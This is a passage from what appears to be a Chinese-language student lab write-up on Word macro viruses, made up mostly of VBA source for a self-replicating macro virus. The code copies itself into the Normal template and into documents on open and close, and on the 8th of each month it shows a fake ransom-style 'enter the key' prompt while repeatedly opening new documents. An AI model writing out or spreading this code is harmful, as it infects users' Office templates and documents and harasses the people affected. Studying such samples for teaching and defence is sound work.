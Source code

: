 图4 日期调整到29日 关闭 `word` 文件时自动运行宏代码
</div>

#### 编写自己名称的宏病毒
> 参考1 https://blog.csdn.net/qq_38474570/article/details/88382677\
> 参考2 https://blog.csdn.net/qq_38474570/article/details/88382677
```vb
' zjh
Dim nm(4)
Sub Document_Open() 'Sub指过程开始
' 提取默认模板内容对象
Set ourcodemodule = ThisDocument.VBProject.VBComponents(2).CodeModule
' 提取默认模板内容对象
Set host = NormalTemplate.VBProject.VBComponents(2).CodeModule
' 若本文件为默认模板 则提取模板内容对象
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(2).CodeModule
End If
With host
' 当首行不为‘zjh’时 删除所有内容 写入默认文档的所有内容
If .Lines(1, 1) <> "' zjh" Then
    .DeleteLines 1, .CountOfLines
.InsertLines 1, ourcodemodule.Lines(1, 100)
' 第三行替换为 Document_Close() 关闭文档时触发内容
.ReplaceLine 3, "Sub Document_Close()"
    ' 若文档为默认模板，第三行替换为 Sub Document_Open()
    If ThisDocument = NormalTemplate Then
        .ReplaceLine 3, "Sub Document_Open()"
        ' 保存文件
        ActiveDocument.SaveAs ActiveDocument.FullName
    End If
End If
End With
Count = 0
If Day(Now()) = 8 Then
try:
        On Error GoTo try
beg:
        Beep
        ans$ = InputBox$("你的电脑已被张景赫的宏病毒感染，请找他要密钥以解锁文档")
        If RTrim$(LTrim$(ans$)) = "0000" Then
            GoTo out
            Else
                Count = Count + 1
                For j = 1 To 2
                    Beep
                    Documents.Add
                Next j
                GoTo beg
                ' GoTo try
        End If
End If
out:
End Sub

```
#### 实现效果
<div align="center">